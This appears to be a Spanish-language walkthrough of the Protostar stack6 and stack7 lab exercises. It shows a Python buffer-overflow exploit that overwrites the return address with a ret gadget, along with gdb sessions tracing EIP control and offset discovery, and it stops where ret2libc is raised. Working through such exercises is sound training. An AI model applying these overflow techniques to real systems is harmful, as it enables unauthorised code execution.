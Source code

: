 ```python
import struct
offset = 80
padding = "A" * offset
ret = struct.pack("I",0x080484f9)
eip = struct.pack("I",0xbffff6a4+8)
breakpoint = "\xCC" * 90
print(padding + ret + eip + breakpoint)
```
```console
[user@protostar]-[/opt/protostar/bin]:$ python /tmp/exploit.py > /tmp/pattern
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack6
(gdb) run < /tmp/pattern
Program received signal SIGTRAP, Trace/breakpoint trap
(gdb) x/4wx $esp
0xbffff69c:	0x080484f9	0xbffff6ac	0xcccccccc	0xcccccccc -> COmo hemos dicho el RET, ha pasado al eip la siguiente dirección.
(gdb) si
(gdb) x/4wx $esp
0xbffff6a0:	0xbffff6ac	0xcccccccc	0xcccccccc	0xcccccccc -> Ha saltado a una zona de "c" o breakpoint
(gdb) c
Continuing.
Program received signal SIGTRAP, Trace/breakpoint trap.
```
En cambio sin ese RET...

```python
print(padding + eip + breakpoint)
```
```console
(gdb) run < /tmp/pattern
Starting program: /opt/protostar/bin/stack6 < /tmp/pattern
input path please: bzzzt (0xbffff6ac)
Program exited with code 01.
```

---------------------------------------------------------------------------

# ROP + Ret2libc -> [stack7](https://exploit.education/protostar/stack-seven/)

Este ejercicio es identico al anterior, solo cambia ligeramente la parte de no poder retornar a la pila

El input empieza en 0xbffff65c (que justo es el valor del primer elemento de la pila 0xbffff640:0xbffff65c).
Una manera rapida de ver donde esta el eip es desbordando y con el comando info frame

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'* 76 + 'BBBBCCCCDDDDEEEEFFFFGGGG' )" > /tmp/pattern
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack7
(gdb) run < /tmp/pattern
Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? () -> Las "C" ->  offset = 80 + eip
```
Si probamos a ejecutar un ret2libc? 
